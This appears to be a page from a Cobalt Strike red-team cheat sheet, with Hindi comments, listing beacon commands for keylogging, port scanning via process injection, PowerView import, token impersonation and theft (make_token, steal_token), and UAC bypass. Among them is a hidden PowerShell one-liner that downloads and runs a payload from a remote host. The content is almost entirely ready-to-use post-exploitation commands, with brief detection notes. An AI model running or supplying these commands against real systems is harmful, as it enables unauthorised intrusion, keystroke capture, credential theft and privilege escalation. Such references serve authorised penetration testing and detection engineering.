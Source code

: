 # keylogger
keylogger [pid] [x86|x64]
## View > Keystrokes पर जाएं ताकि दबाए गए कुंजियों को देख सकें

# portscan
portscan [pid] [arch] [targets] [ports] [arp|icmp|none] [max connections] # किसी अन्य प्रक्रिया के अंदर पोर्टस्कैन क्रिया को इंजेक्ट करें
portscan [targets] [ports] [arp|icmp|none] [max connections]

# Powershell
# Powershell मॉड्यूल आयात करें
powershell-import C:\path\to\PowerView.ps1
powershell &#x3C;यहाँ बस powershell cmd लिखें>

# User impersonation
## क्रेड्स के साथ टोकन जनरेशन
make_token [DOMAIN\user] [password] # नेटवर्क में एक उपयोगकर्ता का अनुकरण करने के लिए टोकन बनाएं
ls \\computer_name\c$ # कंप्यूटर में C$ तक पहुँचने के लिए उत्पन्न टोकन का उपयोग करने का प्रयास करें
rev2self # make_token के साथ उत्पन्न टोकन का उपयोग करना बंद करें
## make_token का उपयोग करने से घटना 4624 उत्पन्न होती है: एक खाता सफलतापूर्वक लॉग ऑन हुआ। यह घटना Windows डोमेन में बहुत सामान्य है, लेकिन लॉगऑन प्रकार पर फ़िल्टर करके इसे संकीर्ण किया जा सकता है। जैसा कि ऊपर उल्लेख किया गया है, यह LOGON32_LOGON_NEW_CREDENTIALS का उपयोग करता है जो प्रकार 9 है।

# UAC Bypass
elevate svc-exe &#x3C;listener>
elevate uac-token-duplication &#x3C;listener>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"

## pid से टोकन चुराना
## make_token की तरह लेकिन एक प्रक्रिया से टोकन चुराना
steal_token [pid] # इसके अलावा, यह नेटवर्क क्रियाओं के लिए उपयोगी है, स्थानीय क्रियाओं के लिए नहीं
## API दस्तावेज़ से हम जानते हैं कि यह लॉगऑन प्रकार "caller को अपने वर्तमान टोकन को क्लोन करने की अनुमति देता है"। यही कारण है कि बीकन आउटपुट कहता है Impersonated &#x3C;current_username> - यह हमारे अपने क्लोन किए गए टोकन का अनुकरण कर रहा है।
ls \\computer_name\c$ # कंप्यूटर में C$ तक पहुँचने के लिए उत्पन्न टोकन का उपयोग करने का प्रयास करें
rev2self # steal_token से टोकन का उपयोग करना बंद करें

